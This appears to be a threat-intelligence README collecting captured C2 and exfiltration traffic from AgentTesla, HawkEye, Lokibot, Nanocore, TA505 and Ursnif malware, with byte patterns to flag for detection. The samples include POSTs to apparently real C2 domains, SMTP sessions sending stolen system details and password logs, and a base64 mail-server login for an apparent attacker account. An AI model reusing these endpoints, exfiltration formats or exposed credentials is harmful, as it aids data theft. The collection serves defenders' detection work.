 ### A repo for matching on known c2 and exfil traffic keywords (ctrl+f to search)

#### AgentTesla http:
~~~
POST /zin/WebPanel/api.php HTTP/1.1
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 6.1; ru; rv:1.9.2.3) Gecko/20100401 Firefox/4.0 (.NET CLR 3.5.30729)
Content-Type: application/x-www-form-urlencoded
Host: megaplast.co.rs
Content-Length: 308
Expect: 100-continue
Connection: Keep-Alive

HTTP/1.1 100 Continue

p=G1DZYwdIiDZ6V83seaZCmTT0wiCyOlXVS0OEx4YpkUAOuKO/6hfQJ%2BZD2LjpTbyu9w0gudjYXCIc0Ul74wtsvtqYLYuTR%2BlFVl%2B5deG0RnTTo6nFc1M9tx0%2BRo7WXetRdIHkmVMMSeqH%2BEroM7yttDzosvKfKgB%2BJ07oqT/YvQ6CPNW2%2BCETCU6oIlO9XYyrEy6/hYeF%2BgkfRc9xSEfZhh/7Wk0khJ4zZJ3cjEvXDxJcQWA739/yDUy4kOAndihYsWnLw1mVCHxJSJf7%2BguB9f4DpgX10NLpH
~~~
![alt text](https://github.com/silence-is-best/c2db/blob/master/images/agenttesla-http.png "AgentTesla HTTP")

#### AgentTesla smtp exil:
~~~
From: office@larbaxpo[.]com
To: officelogs@larbaxpo[.]com
Date: 9 Oct 2019 17:58:19 +0100
Subject: admin/USER-PC Recovered Cookies
Content-Type: multipart/mixed;
 boundary=--boundary_0_cac7ba32-e0f8-42d4-8b2e-71d1828e6ff7

----boundary_0_cac7ba32-e0f8-42d4-8b2e-71d1828e6ff7
Content-Type: text/html; charset=us-ascii
Content-Transfer-Encoding: quoted-printable

Time: 10/09/2019 17:58:13<br>UserName: admin<br>ComputerName: USE=
R-PC<br>OSFullName: Microsoft Windows 7 Professional <br>CPU: Int=
el(R) Core(TM) i5-6400 CPU @ 2.70GHz<br>RAM: 3583.61 MB<br>IP: 18=
5.183.107.236=0A<hr>
~~~
![alt text](https://github.com/silence-is-best/c2db/blob/master/images/agenttesla-submission.png "AgentTesla Submission")

#### Hawkeye keyogger
~~~
220 and/or bulk e-mail.
EHLO User-PC
250-europa.websitewelcome.com Hello User-PC [89.187.165.47]
250-SIZE 52428800
250-8BITMIME
250-PIPELINING
250-AUTH PLAIN LOGIN
250-STARTTLS
250 HELP
AUTH login 
334 UGFzc3dvcmQ6
I01vc2hhcnJvZiMzMjFA
235 Authentication succeeded
MAIL FROM:<mosharrof@mhcapparels.com>
250 OK
RCPT TO:<mosharrof@mhcapparels.com>
250 Accepted
DATA
354 Enter message, ending with "." on a line by itself
MIME-Version: 1.0
From: mosharrof@mhcapparels.com
To: mosharrof@mhcapparels.com
Date: 9 Oct 2019 01:57:35 +0100
Subject: HawkEye Keylogger - Reborn v9 - Passwords Logs - admin \ USER-PC -
 89.187.165.47
Content-Type: text/plain; charset=utf-8
Content-Transfer-Encoding: base64

SGF3a0V5ZSBLZXlsb2dnZXIgLSBSZWJvcm4gdjkNClBhc3N3b3JkcyBMb2dzDQphZG1p
biBcIFVTRVItUEMNCg0KPT09PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09
PT09PT09PT09PT09PT0NClVSTCAgICAgICAgICAgICAgIDogaHR0cHM6Ly9tLmZhY2Vi
b29rLmNvbQ0KV2ViIEJyb3dzZXIgICAgICAgOiBGaXJlZm94IDMyKw0KVXNlciBOYW1l
ICAgICAgICAgOiBob25leUBwb3QuY29tDQpQYXNzd29yZCAgICAgICAgICA6IGhvbmV5
~~~
![alt text](https://github.com/silence-is-best/c2db/blob/master/images/hawkeye.png "Hawkeye")


#### Lokibot

follw tcp stream, not http stream in wireshark
~~~
POST /sky/five/fre.php HTTP/1.0
User-Agent: Mozilla/4.08 (Charon; Inferno)
Host: fueda.info
Accept: */*
Content-Type: application/octet-stream
Content-Encoding: binary
Content-Key: 8DAA705A
Content-Length: 176
Connection: close

..'.......ckav.ru..
...a.d.m.i.n.......U.S.E.R.-.P.C.......U.S.E.R.-.P.C......................+................0...8.5.6.9.A.A.F.F.6.3.A.A.A.7.1.D.8.0.4.0.0.E.2.5.....Rqbay....
~~~
![alt text](https://github.com/silence-is-best/c2db/blob/master/images/lokibot.png "Lokibot")

#### Nanocore

flag on "38 00 00 00 17" pattern
~~~
00000000  38 00 00 00 17 f5 4b 2c  c3 65 ca 9f eb bc fd 67   8.....K, .e.....g
00000010  ad 6d 0e c4 33 7d b6 40  17 17 97 a1 d9 7c 3c b3   .m..3}.@ .....|<.
00000020  04 ea d0 16 f2 cf 3e 51  29 18 55 e5 1c 7a 6a 91   ......>Q ).U..zj.
00000030  03 99 38 f7 ac 3b f7 89  85 2e c4 d8               ..8..;.. ....
~~~
![alt text](https://github.com/silence-is-best/c2db/blob/master/images/nanocore-38.png "Nanocore 38")

flag on "40 00 00 00 17" pattern:
~~~
00000000  40 00 00 00 17 f5 4b 2c  c3 65 ca 9f eb bc fd 67   @.....K, .e.....g
00000010  ad 6d 0e c4 33 7d b6 40  17 17 97 a1 d9 7c 3c b3   .m..3}.@ .....|<.
00000020  04 ea d0 16 87 30 8f fa  78 9d 2a 01 c2 51 ee 07   .....0.. x.*..Q..
00000030  bd e7 23 95 3e ab a1 04  ca 56 b3 fb b7 9b b7 3a   ..#.>... .V.....:
00000040  13 e5 2b 52                                        ..+R
~~~
![alt text](https://github.com/silence-is-best/c2db/blob/master/images/nanocore-40.png "Nanocore 40")

#### TA505 Loader:
~~~
POST /2021 HTTP/1.1
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0; .NET CLR 1.1.4322; .NET CLR 2.0.50727; .NET CLR 3.0.4506.2152; .NET CLR 3.5.30729; InfoPath.2; CIBA; MS-RTC LM 8)
Content-Length: 95
Host: windows-sys-update.com

&D=User-PC&U=admin&OS=6.1&PR=Dwm.exe%7CEXCEL.EXE%7CExplorer.EXE%7Ctaskhost.exe%7Cwindanr.exe%7CHTTP/1.1 404 Not Found
Server: nginx/1.10.3
Date: Wed, 09 Oct 2019 18:53:18 GMT
Content-Length: 0
Connection: keep-alive
~~~
![alt text](https://github.com/silence-is-best/c2db/blob/master/images/ta505-loader.png "TA505 Loader")

#### Ursnif:
~~~
POST /images/wsF0B4sp/ZaYjjdVgt73Q1BSOy_2Fofi/qF_2BfPTuK/5Ha_2F0xEvmbSfT_2/FluJ8ZF_2Fx8/g6xkZAZrZwN/2skHgzv92i_2BS/uPf4RDQvATKCgx0GZ5gez/ph_2BLcscLQkKDVw/HGZ6zA6DhGCqgPD/VTX09Q_2FUWIFyWps1/nfJ0I3rIZ/QNKbXjeu7xXa3W_2FZSX/bcWtE2zC4RafXFoRlqL/4EC4YHwclzkXrfX/58a3.bmp HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: multipart/form-data; boundary=36775038942641984568
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Content-Length: 399
Host: shoshanna.at

--36775038942641984568
Content-Disposition: form-data; name="upload_file"; filename="78C6.bin"

\.\..V.]:.o..<]......H..)E.J=x...e%3..U.@.f......].tZ..1....g..OzC.5v.?o.NL...;..)..E.G.a~.....M#;.Cu;N/.3\$....x.....R....e..5.....-mW,..	..C................n.G.|..k0...@...?I.Iu......9k^.U6tzT9.b.3....#..V.4].La....zL.h+...aa..H.D.....Ar.......3.w.<.!.-.....|F9! 3.....7
--36775038942641984568--
~~~
![alt text](https://github.com/silence-is-best/c2db/blob/master/images/ursnif.png "Ursnif POST")
